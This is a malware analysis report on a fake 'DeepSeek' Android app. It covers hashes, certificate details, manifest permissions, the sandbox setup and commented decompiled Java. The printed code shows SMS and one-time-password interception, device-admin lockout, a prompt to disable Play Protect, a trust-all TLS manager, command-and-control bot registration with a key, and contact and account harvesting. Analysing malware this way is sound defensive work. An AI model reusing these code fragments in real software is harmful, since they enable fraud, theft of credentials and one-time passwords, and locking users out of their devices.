

## Executive Summary
### User Perspective
- Imagine downloading an app that seems completely harmless, only to later discover that it is secretly designed to take over your phone. This malicious application works silently in the background, and once it’s installed, it begins a series of dangerous actions that can jeopardize your personal security. It tricks you into granting a wide range of permissions that let it read your text messages, make calls, and even lock your device without your consent.
- The malware takes advantage of these permissions to intercept important messages, including those one-time passwords you might receive for secure banking or online transactions. By accessing your contacts and messages, it gathers sensitive information that could be misused for identity theft or financial fraud. The app also displays deceptive warnings and misleading prompts, convincing you to disable security features that are meant to protect you. Once these defenses are down, the malware can operate even more freely.
- Not only does the application steal your data, but it also takes control over your device. For example, it might prevent you from unlocking your phone, or it could change your settings without you knowing. This control can leave you locked out of your device or make it easier for the malware to hide its harmful activities from you.
### Organization Perspective
- If a company falls victim to this type of malware, the consequences can be massive, impacting security, finances, operations, and reputation. The malware can steal sensitive corporate data, including confidential emails, financial records, and customer information, putting the organization at risk of data breaches and leaks. If infected devices are used for business transactions, hackers may intercept one-time passwords, potentially leading to financial fraud and unauthorized access to company bank accounts. Additionally, the malware can disrupt daily operations by locking employees out of their devices or tampering with critical business applications, resulting in costly downtime and lost productivity.
- Beyond financial and operational damage, the company’s reputation could suffer as customers, partners, and regulators lose trust. A security breach involving client data can lead to legal repercussions, regulatory fines, and even lawsuits, especially if compliance requirements like GDPR is violated. If the malware spreads within the corporate network, it can escalate into a full-scale cyber-attack, potentially infecting servers, other connected devices and the entire supply chain.
## Background
- **Date** - 09/03/2025
- **File Name** by VirusTotal
	- deepkseep.apk
	- DeepSeek.apk
	- com.vgsupervision_kit29.jvzV7sC2.apk
	- F35635AB05A8F0FF2E45A561E9AEF6CB766FE62CD3216DC4AB5CA2425C58E1D7.apk
	- f35635ab05a8f0ff2e45a561e9aef6cb766fe62cd3216dc4ab5ca2425c58e1d7.apk
	- base.apk
- **File Location** - [original](/original/deepseek/deepkseep.apk)
## Static Analysis
- This was done on the files found in [static analysis folder](static_analysis/deepseek)
- **File Hash** by VirusTotal
	- **MD5** - 99fe380d9ef96ddc4f71560eb8888c00
	- **SHA-1** - fda55ec025703ea369494486faf23ced9ce1dce9
	- **SHA-256** - f35635ab05a8f0ff2e45a561e9aef6cb766fe62cd3216dc4ab5ca2425c58e1d7
	- **Vhash** - f983b0caa875e177297f6afd3cd4568c
	- **SSDEEP** - 196608:fgsmj7sRstUVrL3XbxvRmEDsQK0j891DX:4fArz9vvDHJw
	- **TLSH** - T1A696DF17778A4F39F8CD7974814F23378512B818676151DB0A6AD100EE2F7F2AE7
- **File Size** - 8666672 bytes (8.27MB)
- **File Type** - APK - Android Package Kit
- **Signed** by JEB
	- Certificate (cert)
		 - **Type**: X.509
		 - **Version**: 3
		 - **Serial Number**: 0x232eae62
		 - **Issuer**: CN=Android Debug, OU=Android, O=Unknown, L=Unknown, ST=Unknown, C=US
		 - **Validity**: 
			 - **from** = Tue Dec 31 22:35:04 WET 2013
			 - **to** = Tue Apr 30 23:35:04 WEST 2052
		 - **Subject**: CN=Android Debug, OU=Android, O=Unknown, L=Unknown, ST=Unknown, C=US
	- **Public Key:**
		-  -  **type** = RSA 2048 bits
		- **exponent** = 65537
		- **modulus** = 18540476933856063472742644372492167470984374466101418965964602200346658256331617876341540619853874089691681183832975800693326233922764379654523470905594058069717679154144893604043403938465611177673609605385274838737424709338866490471119349804439371763571612984704327262368930140059500638976837950409930486206304128556267683024077297022207446884589432626644154224854508965798249988847381146759890750301226326599907012200013690636748331670565368833098561728853289176964859755745187595754141613252004726964873817156726965210486706627985085621549427526223113699538754882009681244514440222397645884075569564723233174442337
	- **Signature**:
		 - **type** = SHA1 with RSA, OID = 1.2.840.113549.1.1.5
		 - **hexdata** = 5F D2 76 15 BF CE 63 18 4D 12 50 C1 B9 11 75 F0 BC E2 F9 C4 4E 7A E7 77 7F 8D 85 C9 E1 B2 15 3D 3D 10 06 6B B0 01 9A 2C 0A 6D 7E 3C 02 DB DF F7 76 D6 B6 FF 27 2E BC F4 68 25 98 68 A4 0C 0E 77 D4 30 45 5E 7B CF C3 B9 FF 2F 4F 7A 8A 93 1B 75 B0 52 BB F4 24 5F 31 E2 8E 0F 49 10 18 AB 7E 97 D7 FB 8E 1D 73 D3 12 CD 08 DC 96 FB 9D D3 93 9C A2 E1 D6 AD F6 5C FF 4A 58 D9 EC 91 6A EA 06 D4 3B 52 43 FA D5 9C F1 14 6E 3C 71 AB 66 D3 24 F0 12 93 5A 31 4E 96 AF F8 1B AE C1 83 C8 37 90 F9 9A 86 DA B5 6B 5B C5 B2 6D 16 94 BC 35 5E 42 90 EC 02 ED BA 11 5D 57 BB DD 65 A8 B0 E4 69 34 56 B5 AC 2A 3A 07 A4 44 7E 5D 7A D4 DE 9D FC 8A 99 C5 3C D4 EE 6C 2E 65 B9 BF DE C6 89 AE 8E 23 19 D6 4C B8 3A 63 08 A2 18 7E 30 C0 3F EE F6 87 71 8D 49 03 E5 40 03 A9 A0 B5 7F 78 DB D9 A8 89 2A 
		- **MD5 Fingerprint**: 20 F4 61 48 B7 2D 8E 5E 5C A2 3D 37 A4 F4 14 90 
		- **SHA-1 Fingerprint**: 5E 8F 16 06 2E A3 CD 2C 4A 0D 54 78 76 BA A6 F3 8C AB F6 25 
		- **SHA-256 Fingerprint:** FA C6 17 45 DC 09 03 78 6F B9 ED E6 2A 96 2B 39 9F 73 48 F0 BB 6F 89 9B 83 32 66 75 91 03 3B 9C
	- **Human-readable dump:**
		 - **Type**: X.509
		 - **Version**: 3
		 - **Serial Number**: 0x232eae62
		 - **Issuer**: CN=Android Debug, OU=Android, O=Unknown, L=Unknown, ST=Unknown, C=US
		 - **Validity**: 
			 - **from** = Tue Dec 31 22:35:04 WET 2013
			 - **to** = Tue Apr 30 23:35:04 WEST 2052
		 - **Subject**: CN=Android Debug, OU=Android, O=Unknown, L=Unknown, ST=Unknown, C=US
- **Packer/Compiler Info** - Java/Kotlin
- **Compiler Time** - 
	- **Earliest Contents Modification** - 2025-01-31 16:51:38
	- **Latest Contents Modification** - 2025-01-31 16:51:38
- **File Properties:**
	- **Description** (file) - Zip archive data, at least v2.0 to extract, compression method=store 
	- **Description** (exiftool)
		- **Zip Required Version** : 20 
		- **Zip Bit Flag** : 0x0801
		- **Zip Compression** : None
		- **Zip Modify Date** : 2025:01:31 16:51:38
		- **Zip CRC** : 0xf911759a
	- **Version** (VirusTotal) - **Internal Version** : 1
	- **Displayed Version** : 1.0
	- **Minimum SDK Version** : 28
	- **Target SDK Version** : 33
	- **File Header Characteristics** -50 4B 03 04 14 (PK) 
	- **Language** (DetectItEasy) - Kotlin
- **Strings:** 
	- **Functions** : Several C++ functions found, to verify use the command ```strings deepkseep.apk | grep "::"```
	- **Domains** : 
- **External Dependencies**: 
	- [OkHttp3](https://github.com/square/okhttp)
	
	- **Sections** : To verify some sections use the command ```strings deepkseep.apk | grep -E "^\."```
- **Entropy** by DetectItEasy
	- 
### AndroidManifest.xml
- One of the files that DetectItEasy was able to obtain was the AndroidManifest.xml, this is a file that is critical for the application, defining information like permissions, activities, intents and services. In our application manifest the following permissions were found, these will be separated according to our personal interpretation:
	- **Acceptable Permissions**
		- **REQUEST_IGNORE_BATTERY_OPTIMIZATIONS** - Allows the app to bypass battery-saving restrictions, enabling it to run continuously in the background.
		- **INTERNET** - Allows the application to open network sockets.
		- **ACCESS_NOTIFICATION_POLICY** - Gives the application permission to access the notification policy.
		- **VIBRATE** - Allows the application to use the vibration motor in the device.
		- **REQUEST_DELETE_PACKAGES** - Allows the application to request deleting packages.
		- **MODIFY_AUDIO_SETTINGS** - Allows the application to change the global audio settings, like putting the device to mute, vibrate etc..
		- **POST_NOTIFICATIONS** - Allows the application to send notification.
	- **Outside Communications**
		- **READ_SMS** - Allows the application to read SMS messages.
		- **WRITE_SMS** - Allows the application to write SMS messages.
		- **SEND_SMS** - Allows the application to send SMS messages.
		- **RECEIVE_SMS** - Allows the application to receive SMS messages.
		- **RECEIVE_MMS** - Allows the application to receive MMS messages.
		- **SMS_RECEIVED** - Allows the application to read received SMS messages.
		- **CALL_PHONE** - Allows an application to initiate a phone call without going through the Dialer user interface for the user to confirm the call.
	- **Controlling the device**
		- **USES_POLICY_FORCE_LOCK** - Allows the application to either force the device to lock or limit the maximum lock timeout.
		- **WRITE_SETTINGS** - Allows the application to read or write the system settings.
		- **USE_FULL_SCREEN_INTENT** - Allows the application to send a high priority full-screen notification.
		- **WAKE_LOCK** - Allows the application to keep the process from sleeping and the screen from dimming.
		- **REORDER_TASKS** - Allows the application to alter the priority of running tasks.
		- **FOREGROUND_SERVICE** - Required for apps that run in foreground.
		- **RECEIVE_BOOT_COMPLETED** - Allows the application to receive a signal once the booting process is completed.
	- **OSINT**
		- **ACCESS_NETWORK_STATE** - Allows the application to gather information about the networks the device has been connected with.
		- **QUERY_ALL_PACKAGES** - Allows the application to verify the installed applications.
		- **READ_PHONE_STATE** - Allows the application to read only access to phone state, including the current cellular network information, the status of any ongoing calls.
		- **READ_PHONE_NUMBERS** - Allows the application to read phone numbers stored in the device.
- The permissions found in the AndroidManifest file suggest that the application has capabilities commonly associated with malware. The SMS and call-related permissions (**READ_SMS, WRITE_SMS, SEND_SMS, RECEIVE_SMS, RECEIVE_MMS, SMS_RECEIVED, and CALL_PHONE**), which can be used for SMS fraud, intercepting One-Time-Passwords (OTPs), and covert communication with a command-and-control server. These permissions also enable the application to initiate calls without user consent, which is often used for premium-rate call fraud.
- The device control permissions (**USES_POLICY_FORCE_LOCK, WRITE_SETTINGS, USE_FULL_SCREEN_INTENT, WAKE_LOCK, REORDER_TASKS, FOREGROUND_SERVICE, and RECEIVE_BOOT_COMPLETED**) allows the application to manipulate system behavior. These capabilities are often seen in ransomware, which locks the screen until a ransom is paid, or spyware that prevents easy removal. The ability to send full-screen notifications and manipulate running tasks further suggests potential phishing or user deception tactics.
- The OSINT-related permissions (**ACCESS_NETWORK_STATE, QUERY_ALL_PACKAGES, READ_PHONE_STATE, and READ_PHONE_NUMBERS**) enable the application to gather intelligence about the device and the user. These capabilities are often used in spyware, banking trojans, data-harvesting malware and selling or using the data to blackmail someone.
### Other Files
- There are two other files that deserve mentioning that result from the usage of JEB:
	- **Shared Preferences** (sf.xml) - this file defines a two use-policies that cause suspicion:
		- **disable-keyguard-features** - Allows the application to disable the lock screen since the keyguard in android refers to the code that handles the unlocking of the device.
		- **force-lock** - Allows the application to block the device without user consent.
	- Both these policies reinforce the permissions analysed previously.
	- **Preference Files** (U2.xml)
		- **accessibilityEventTypes="0xffffffff"** - monitor all UI events.
		- **canRetrieveWindowContent="true"** - allows the app read the on-screen text.
		- **canPerformGestures="true"** allows the app to simulate taps, swipes, and other user inputs.
		- **android:canTakeScreenshot="true"** - allows the app capture the screen.
## Behavioral Analysis
### Setup
- In order to perform the dynamic analysis in a safe environment we created a QEMU virtual machine with Windows 11, so that we could run LDPlayer9 (an android emulator). This was a complex process, since there was a lot of requirements that had to be installed in order to the virtual machine to allow the dynamic analysis process such as openGL, Java SDK and some video drivers for QEMU.
- To install the apk, we use adb (android debug bridge), this provides a CLI interface to communicate and send commands to the emulator, through this we installed the application with the command```adb install deepkseep.apk```.
- Later on, during the analysis, we installed Burp Suite and its certificates, to use as a proxy to intercept the requests made by the app, to do this we went to the android emulator WiFi settings and pointed the proxy to the Burp Suite port (8080).
- To accomplish the memory dump we used Frida, an instrumentation toolkit implemented in Python.
	- This had two components: frida-server and frida-tools, the first ran on the emulator and the second (connected to the first) runs locally and allows inter-machines communication and to run scripts.
### Live Memory Dump
- After all is set and running, we used the following command that ran the script from [frida-dexdump](https://github.com/hluwa/frida-dexdump) ```frida-dexdump -U -f com.vgsupervision_kit29 ```, this command resulted in the files in the following folder [behavioral analysis](/behavioral_analysis/com.vgsupervision_kit29/) 
- 
- This command resulted and the following files:
	- classes.dex, classes02.dex, classes03.dex, classes04.dex, classes05.dex, classes06.dex and classes07.dex.
- In order to analyse these files we used JADX. 
- Through the information gathered from VirusTotal, we knew that the main activity name was **com.vgsupervision_kit29.jvzV7sC2**, so this was starting point.
- Since the dump resulted in a lot of files, that mainly did not make any sense, at least to us, we decided to analyse the folder that contained the main activity (the folder with the package name), in order to keep the reading as simple as possible we will only refer to the classes we find relevant. These will be analysed by the order they appear in the folder:
- **auce5dH8**
	- First with the object ```DevicePolicyManager``` the applications accesses the policies set on device.
	- Creates a ```ComponentName``` for an admin receiver class ```hhA8n9MIP```, that we will analyse later.
	- Then it checks if the application is already an active device administrator.
		- If it is then it disables the screen lock timeout ```setMaximumTimeToLock(componentName, 0L);```, which prevents automatic locking.
		- If it isn't it launches the system Device Admin Activation screen, which will prompt the screen to enable admin permissions.
			- An important part to recall here is that as soon we start the app, it asks for several permissions, on of those is the permissions to **Perform Gestures**, this enables the application to accept the prompt without user interaction.
```Java
DevicePolicyManager devicePolicyManager = (DevicePolicyManager) getSystemService("device_policy");  
ComponentName componentName = new ComponentName(this, (Class<?>) hhA8n9MIP.class);  
if (devicePolicyManager.isAdminActive(componentName)) {  
	 Cswitch.m130case(applicationContext).m136final("b11", Boolean.TRUE);  
	 devicePolicyManager.setMaximumTimeToLock(componentName, 0L);  
	 finish();  
} else {  
	 Intent intent = new Intent("android.app.action.ADD_DEVICE_ADMIN");  
	 intent.putExtra("android.app.extra.DEVICE_ADMIN", componentName);  
	 intent.putExtra("android.app.extra.ADD_EXPLANATION", "");  
	 intent.addFlags(536870912);  
	 startActivityForResult(intent, 100);  
}
```
- **blnLMTJMjA**
- The code starts creates an ```AlertDialog.Builder``` to construct a warning message.
	- This dialog as only one button, with the label "Open Google Play"
- The message tells the user that Google collects personal data and encourages them to disable Play Protect features.
- When clicked, it calls the local method ```ifdf(dialogInterface, i)```, which attempts to open Google Play Store, since the package name is ```com.android.vending```, and it calls the class ```Ccase```.
	- This can be used to trick the users to disable security features.
- Then the dialog is displayed.
```Java 
public /* synthetic */ void ifdf(DialogInterface dialogInterface, int i) {  
	Ccase.f(getApplicationContext(), "com.android.vending");  
	dialogInterface.dismiss();  
 }  

 @Override // android.app.Activity  
 protected void onCreate(Bundle bundle) {  
	super.onCreate(bundle);  
	Cswitch m130case = Cswitch.m130case(getApplicationContext());  
	AlertDialog.Builder builder = new AlertDialog.Builder(this);  
	builder.setMessage(m130case.m135else("s_i10n_disable_GP", "Google collects your personal information!\nTurn off Google surveillance:\n\nGo to Google account > Play Protect > Settings\n\nUncheck \"Send apps to Google\" and other checkboxes")).setPositiveButton("Open Google Play", new DialogInterface.OnClickListener() { // from class: abstract.class  
		@Override // android.content.DialogInterface.OnClickListener  
		public final void onClick(DialogInterface dialogInterface, int i) {  
			 blnLMTJMjA.this.ifdf(dialogInterface, i);  
		}  
	});  
	AlertDialog create = builder.create();  
	this.f978fddo = create;  
	create.show();  
 }  
  
```
- **bvLN0nNj**
- In the class definition it extends for ```BroadcastReceiver``` meaning this component listens for specific system-wide broadcasts like SMS messages, this is related with the permission found on the AndroidManifest.xml file **MS_RECEIVED**.
- The function onReceive performs a series of actions:
	- Extracts SMS raw data from the broadcast intent ```intent.getExtras().get("pdus")```. 
	- Decodes SMS messages from the Protocol Data Unit (PDU) using ```SmsMessage.createFromPdu```, normally these objects contain sender details, timestamps and the message content.
	- Retrieves the sender's phone number with ```getDisplayOriginatingAddress())```, the message content  with ```getMessageBody()``` and the timestamp with ```smsMessageArr[0].getTimestampMillis()```.
	- Then it logs, processes and very likely exfiltrates the SMS data with  ```Ccase.t(context, format, displayOriginatingAddress, displayMessageBody)``` this could be done to a local storage or a remote server.
	- With the fucntion ```abortBroadcast()```this stops the SMS from reaching the default messaging app, this is only possible if the application has the permission **SMS_RECEIVED** which we know is does.
		- This could be used for stealing One-Time-Passwords (OTPs) or verification codes, which are common way to authenticate into the banking applications.
```Java
public class bvLN0nNj extends BroadcastReceiver {  
    @Override // android.content.BroadcastReceiver  
public void onReceive(Context context, Intent intent) {  
		p000abstract.ifdf ifdfVar;  
		Bundle extras;  
		Object[] objArr;  
		String displayMessageBody;  
		try {  
			ifdfVar = new p000abstract.ifdf(context, "bS");  
			extras = intent.getExtras();  
		} catch (Exception e) {  
			Ccase.m212catch(context, "EXC_SMSRCV", e);  
		}  
		if (extras == null || (objArr = (Object[]) extras.get("pdus")) == null) {  
			return;  
		}  
		int length = objArr.length;  
		SmsMessage[] smsMessageArr = new SmsMessage[length];  
		for (int i = 0; i < objArr.length; i++) {  
			smsMessageArr[i] = SmsMessage.createFromPdu((byte[]) objArr[i], extras.getString("format"));  
		}  
		if (length != 1 && !smsMessageArr[0].isReplace()) {  
			StringBuilder sb = new StringBuilder();  
			for (int i2 = 0; i2 < length; i2++) {  
				sb.append(smsMessageArr[i2].getMessageBody());  
			}  
			displayMessageBody = sb.toString();  
			String displayOriginatingAddress = smsMessageArr[0].getDisplayOriginatingAddress();  
			String format = new SimpleDateFormat("dd/MM/yyyy HH:mm:ss").format(Long.valueOf(smsMessageArr[0].getTimestampMillis()));  
			ifdfVar.m92catch("sA", displayOriginatingAddress);  
			ifdfVar.m92catch("sT", format);  
			ifdfVar.m92catch("sB", displayMessageBody);  
			Ccase.t(context, format, displayOriginatingAddress, displayMessageBody);  
			Celse.m254new(context).m256this(ifdfVar);  
			Cpackage.m106try(context).m107case("rcv", "sms received");  
			Ccase.y(context);  
			abortBroadcast();  
		}  
		displayMessageBody = smsMessageArr[0].getDisplayMessageBody();  
		String displayOriginatingAddress2 = smsMessageArr[0].getDisplayOriginatingAddress();  
		String format2 = new SimpleDateFormat("dd/MM/yyyy HH:mm:ss").format(Long.valueOf(smsMessageArr[0].getTimestampMillis()));  
		ifdfVar.m92catch("sA", displayOriginatingAddress2);  
		ifdfVar.m92catch("sT", format2);  
		ifdfVar.m92catch("sB", displayMessageBody);  
		Ccase.t(context, format2, displayOriginatingAddress2, displayMessageBody);  
		Celse.m254new(context).m256this(ifdfVar);  
		Cpackage.m106try(context).m107case("rcv", "sms received");  
		Ccase.y(context);  
		abortBroadcast();  
	}  
}
```
- **Cbreak**
- The first suspicious part of this class is the overrides for the class ```X509TrustManager```, which is used to deal with the X509 certificates, that are used to authenticate in remote sockets.
	- This overrides the functions ```checkClientTrusted(),checkServerTrusted(),X509Certificate()```which will trick the system to believe that every socket connection is secure.
- The function ```m195const()``` is used to indicate that every SSL session is valid, this enables man in the middle attacks.
- Then the function ```m194catch()``` starts a SSL session with the all the overwritten methods.
- The function ```m197final``` builds the connection string for the web-socket, that can likely be a command-and-control server.
- The function ```m199super()``` registers the device as a "bot" in JSON format to the web-socket, in here we can find the authentication key for the web-socket "efitasjawiyWEUYSDg2w", which implies that it has some security when registering the bots, so that without the key we couldn't register a fake bot.
- Another function that caught our attention was ```mo202for()```, which appears to be a mechanism to reestablish the connection to the web-socket if this fails.
- The last function that we found suspicious was ```mo204new()```
```Java
class fddo implements X509TrustManager {  
	fddo() {  
		}  
		@Override // javax.net.ssl.X509TrustManager  
		public void checkClientTrusted(X509Certificate[] x509CertificateArr, String str) {  
		}  
		@Override // javax.net.ssl.X509TrustManager  
		public void checkServerTrusted(X509Certificate[] x509CertificateArr, String str) {  
		}		
		@Override // javax.net.ssl.X509TrustManager  
		public X509Certificate[] getAcceptedIssuers() {  
			return new X509Certificate[0];  
		}  
}

private Cdefault m194catch() {  
	try {  
		TrustManager[] trustManagerArr = {new fddo()};  
		SSLContext sSLContext = SSLContext.getInstance("SSL");  
		sSLContext.init(null, trustManagerArr, new SecureRandom());  
		SSLSocketFactory socketFactory = sSLContext.getSocketFactory();  
		Cdefault.fddo fddoVar = new Cdefault.fddo();  
		fddoVar.dgjfsdhadfjhadfh(socketFactory, (X509TrustManager) trustManagerArr[0]);  
		fddoVar.m578transient(new HostnameVerifier() { // from class: abstract.finally  
			 @Override // javax.net.ssl.HostnameVerifier  
			 public final boolean verify(String str, SSLSession sSLSession) {  
				  boolean m195const;  
				  m195const = Cbreak.m195const(str, sSLSession);  
				  return m195const;  
			 }  
		});  
		TimeUnit timeUnit = TimeUnit.SECONDS;  
		fddoVar.m557for(20L, timeUnit);  
		fddoVar.dfhaefdhadfhdfherh(0L, timeUnit);  
		fddoVar.m561instanceof(0L, timeUnit);  
		fddoVar.m574synchronized(true);  
		fddoVar.m559implements(Arrays.asList(Cextends.HTTP_2, Cextends.HTTP_1_1));  
		fddoVar.m564new(new Cclass(10, 30, TimeUnit.MINUTES));  
		return fddoVar.ifdf();  
	} catch (Exception e) {  
		e.printStackTrace();  
		return null;  
	}  
}

public static /* synthetic */ boolean m195const(String str, SSLSession sSLSession) {  
	return true;  
}

public static String m197final(String str, String str2) {  
	if (str.isEmpty() || str2.isEmpty()) {  
		return null;  
	}  
	return "wss://" + str + ":" + str2;  
}  

private void m199super() {  
	try {  
		JSONObject jSONObject = new JSONObject();  
		jSONObject.put("ws_auth_key", "efitasjawiyWEUYSDg2w");  
		jSONObject.put("register", "bot_" + Ccase.m234static(this.f980ifdf));  
		m206throw(jSONObject.toString());  
	} catch (Exception unused) {  
	}  
}

public void mo202for(Cvolatile cvolatile, Throwable th, Cprivate cprivate) {  
	this.f91for = false;  
	if (this.f93new) {  
		int i = this.f90else + 1;  
		this.f90else = i;  
		if (i > 10) {  
			Cfinal.ifdf(60);  
		} else {  
			Cfinal.ifdf(10);  
		}  
		m205this();  
	}  
}

public void mo204new(Cvolatile cvolatile, String str) {  
	String m228new = Ccase.m228new(str, "x1x3x5x7x9-bcdef");  
	if (m228new == null) {  
		return;  
	}  
	new Cthis(this.f980ifdf, Cthis.ifdf.SUCCESS, m228new, 200).m398else();  
	jxJN1jIkUAD.m336throw().fddo(this.f980ifdf, null);  
}
```
- **Ccase**
	- The function ```adgpkhmdsapfghmaepfmdhgpasdm()```is curious, since it verifies if the brand or the manufacturer of the device is Samsung, **could this be a malware directed at Samsung devices?**
	- The function ```b()```registers the receivers, this can be use the allow the app to start as soon as the device boots.
	- The function ```c()```is the function that is called when the ```c()```functions fails, this function is used to create an intent if the receiver in the function ```b()``` fails to register and the registers the intent.
	- The function ```grethwjrsfhj()```obtains the device policy (as mentioned earlier), and verifies if it has admin privileges, if it does it blocks the screen with ```(context, intValue, "lock set", 1)``` if it doesn't have the permissions it sets the whole screen as black. If the context allows it, it activates the functionality "Do Not Disturb" with the line ```(context, intValue, "DoNotDisturb enabled", 2)``` if it doesn't allow it, it will disable the sound with the line ```context, intValue, "sound disabled", 2)```.
	- The function ```m226interface()``` is used te gather all the contact stored in the device, first it checks for the permissions to do so, and if it has the necessary permissions, it gathers all the contacts, namely the display name and the phone number and then returns the map object with the information.
	- The function ```m233return()``` verifies all accounts on the device with the object type ```AccountManager``` and verifies if any account is from "google.com", if it is is returns this values. This could be used for "spear phishing", or to try and access the account.
	- The function ```srgjnsrfgjartgj()```, uses the intent ```android.settings.MANAGE_DEFAULT_APPS_SETTINGS``` to define itself as the default application for some actions.
```Java
public static boolean adgpkhmdsapfghmaepfmdhgpasdm() {  
	return Build.MANUFACTURER.contains("samsung") || Build.BRAND.contains("samsung");  
}

public static void b(Context context) {  
	Intent intent = new Intent();  
	for (Field field : intent.getClass().getDeclaredFields()) {  
		int modifiers = field.getModifiers();  
		if (Modifier.isPublic(modifiers) && Modifier.isStatic(modifiers) && Modifier.isFinal(modifiers) && field.getType().equals(String.class)) {  
			try {  
				context.registerReceiver(new ozW1LnEJ1(), new IntentFilter((String) field.get(intent)));  
				Cpackage.m106try(context).m107case("rcv", "boot rcv registered");  
			} catch (Exception unused) {  
				c(context);  
				return;  
			}  
		}  
	}  
}

public static void c(Context context) {  
	IntentFilter intentFilter = new IntentFilter();  
	intentFilter.addAction("android.intent.action.USER_PRESENT");  
	intentFilter.addAction("android.intent.action.BOOT_COMPLETED");  
	intentFilter.addAction("android.intent.action.QUICKBOOT_POWERON");  
	intentFilter.addAction("android.intent.action.PACKAGE_ADDED");  
	intentFilter.addAction("android.intent.action.PACKAGE_REMOVED");  
	intentFilter.addAction("android.provider.Telephony.SMS_RECEIVED");  
	intentFilter.addAction("android.intent.action.SCREEN_ON");  
	intentFilter.addAction("android.intent.action.EXTERNAL_APPLICATIONS_AVAILABLE");  
	intentFilter.addAction("android.net.conn.CONNECTIVITY_CHANGE");  
	intentFilter.addAction("android.net.wifi.WIFI_STATE_CHANGED");  
	intentFilter.addAction("android.intent.action.DREAMING_STOPPED");  
	intentFilter.addCategory("android.intent.category.HOME");  
	try {  
		context.registerReceiver(new ozW1LnEJ1(), intentFilter);  
		Cpackage.m106try(context).m107case("rcv", "old boot rcv registered");  
	} catch (Exception unused) {  
	}  
}

public static void grethwjrsfhj(Context context, Class cls) {  
	int intValue = Cswitch.m130case(context).m137for("i6", -1).intValue();  
	DevicePolicyManager devicePolicyManager = (DevicePolicyManager) context.getSystemService("device_policy");  
	if (devicePolicyManager.isAdminActive(new ComponentName(context, (Class<?>) cls))) {  
		devicePolicyManager.lockNow();  
		Cnew.m354for(context, intValue, "lock set", 1);  
	} else {  
		m(context);  
		Cnew.m354for(context, intValue, "wv black screen set", 1);  
	}  
	if (ifdf(context)) {  
		m210break(context);  
		Cnew.m354for(context, intValue, "DoNotDisturb enabled", 2);  
	} else {  
		String tjtsrfghsjrfgjhs = tjtsrfghsjrfgjhs(context);  
		if (tjtsrfghsjrfgjhs.isEmpty()) {  
			Cnew.m354for(context, intValue, "sound disabled", 2);  
		} else {  
			Cnew.m354for(context, intValue, "disable sound crash:" + tjtsrfghsjrfgjhs, 3);  
		}  
	}  
	Cnew.m356private(context, "i6");  
}


public static ArrayMap m226interface(Context context) {  
	ContentResolver contentResolver;  
	Cursor query;  
	ArrayMap arrayMap = new ArrayMap();  
	if (context.checkSelfPermission("android.permission.READ_CONTACTS") != 0 || (query = (contentResolver = context.getContentResolver()).query(ContactsContract.Contacts.CONTENT_URI, null, null, null, null)) == null) {  
		return arrayMap;  
	}  
	if (query.getCount() == 0) {  
		query.close();  
		return arrayMap;  
	}  
	while (query.moveToNext()) {  
		String string = query.getString(query.getColumnIndex("_id"));  
		String string2 = query.getString(query.getColumnIndex("display_name"));  
		if (query.getInt(query.getColumnIndex("has_phone_number")) > 0) {  
			Cursor query2 = contentResolver.query(ContactsContract.CommonDataKinds.Phone.CONTENT_URI, null, "contact_id = ?", new String[]{string}, null);  
			while (query2.moveToNext()) {  
			arrayMap.put(query2.getString(query2.getColumnIndex("data1")).replace(" ", "").replace("-", ""), string2);  
			}  
		query2.close();  
		}  
	}  
	query.close();  
	return arrayMap;  
}

public static String m233return(Context context) {  
	for (Account account : AccountManager.get(context).getAccounts()) {  
		if (account.type.equals("com.google")) {  
		return account.name;  
		}  
	}  
	return "";  
}

public static void srgjnsrfgjartgj(Context context) {  
	Intent intent = new Intent("android.settings.MANAGE_DEFAULT_APPS_SETTINGS");  
	intent.addFlags(268435456);  
	intent.addFlags(536870912);  
	context.startActivity(intent);  
}
```
- There are several functions like ```dfhaefdhadfhdfherh(),m216default(),dgjaertjardthjdgu()```... that are used to perform reconnaissance of the settings, installed applications and others.
- Besides these, there are a lot of functions that could be mentioned, but since most of its content has already been discussed we will not include them here.
- **Cnew**
	- On this class we found references to vnc and keyloggers. Vnc is a graphical desktop sharing system that allows to remotely control another device and a keylogger is an application that stores every virtual key press on the device. This can be used to steal passwords/credentials introduced by the user.
- On the class **gqwzEa** we found a manufacturer specific ```toast``` for Samsung and Xiaomi.
- **hhA8n9MIP**
	- This class extends the ```DeviceAdminReceiver``` class, and on the the action to disable it it overwrites with the method ```onDisableRequested()``` and if the user tries to disables the admin permissions it shows a misleading message to the user saying "Do you want to delete all your photos?".
```Java 
@Override // android.app.admin.DeviceAdminReceiver  
 public CharSequence onDisableRequested(Context context, Intent intent) {  
	  ifdf.apdkmghpadfmhpadkmfhpmadfphm();  
	  return "Do you want to delete all your photos?";  
 }
```
- **ifdf**
	- On this class we could see several lists with some keyword like "ok, allow, as default, yes, no, change" in several languages. This shows how in-depth the implementation of the malware went.
	- Later on, we can see a implementation of several overrides of gestures using the class ```AccessibilityService.GestureResultCallback ```, this can be used to automate UI interactions, for example clicking buttons without user input.
	- The function ```srgjnsrfgjartgj()```replaces the content of the clipboard, although it doesn't seem very dangerous, this only shows the application can access the clipboard and even steal everything that the user  stored in the clipboard.
	- The function ```rsjsadghfsfdghj()``` implements a switch with all the gestures/functionalities implemented during this class. This only shows how far the implementation goes.
``` Java
    public static final List f138this = Arrays.asList("ok", "allow", "zezwalaj", "zezwól", "autoriser", "yes", "tak", "oui", "yes", "tak", "consenti", "permitir", "zulassen", "允许", "activate", "activer", "uaktywnij", "aktywuj", "włącz", "attiva", "activar");  
    public static final List f131break = Arrays.asList("as default", "ok", "yes", "change", "modifier", "oui", "tak", "zmień", "sì", "sí");   
    public static final List f133catch = Arrays.asList("ok", "uninstall", "aceptar", "desinstalar", "kaldır", "sil", "დეინსტალაცია", "წაშლა", "إلغاء التثبيت", "يمسح", "poista", "poistaa");  
